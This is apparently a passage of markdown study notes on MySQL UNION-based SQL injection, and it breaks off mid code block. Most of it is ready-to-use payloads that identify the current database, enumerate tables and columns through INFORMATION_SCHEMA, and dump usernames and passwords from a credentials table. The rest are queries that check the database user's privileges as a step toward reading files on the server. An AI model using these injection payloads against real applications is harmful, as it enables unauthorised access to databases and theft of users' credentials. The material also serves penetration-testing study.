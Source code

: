 ```

We can find the current database with the SELECT database() query.

```' UNION select 1,database(),2,3-- - ```



#### TABLES

To find all tables within a database, we can use the TABLES table in the INFORMATION_SCHEMA Database.
we are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to.


```' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'--```

!Note: we added a (where table_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.




#### COLUMNS

The COLUMNS table contains information about all columns present in all the databases. 
The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this.


```
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```

#### Data

```' UNION select 1, username, password, 4 from dev.credentials-- - ```


# Reading Files

        
### Privileges

the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files.


```
    SELECT USER()
    SELECT CURRENT_USER()
    SELECT user from mysql.user
```
#### User Privileges
```
SELECT super_priv FROM mysql.user  ///test if we have super admin privileges
```

! If we had many users within the DBMS, we can add WHERE user="username" to only show privileges for our current user


#### all of the possible privileges given to our current user  
```
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 